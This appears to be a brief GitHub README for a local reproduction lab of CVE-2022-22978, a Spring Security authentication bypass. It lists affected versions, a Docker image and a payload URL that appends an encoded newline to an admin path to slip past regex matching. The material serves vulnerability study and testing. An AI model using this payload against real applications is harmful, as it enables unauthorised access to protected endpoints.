


### CVE-2022-22978 Spring-Security bypass Demo  
>在Spring Security中使用RegexRequestMatcher且规则中包含带点号的正则表达式时，攻击者可以通过构造恶意数据包绕过身份认证  
### 影响范围  
>Spring Security 5.5.x < 5.5.7  
Spring Security 5.6.x < 5.6.4
### 复现

### Paylaod
>http://localhost:8080/admin/index%0a
### Docker
> docker pull s0cke3t/cve-2022-22978:latest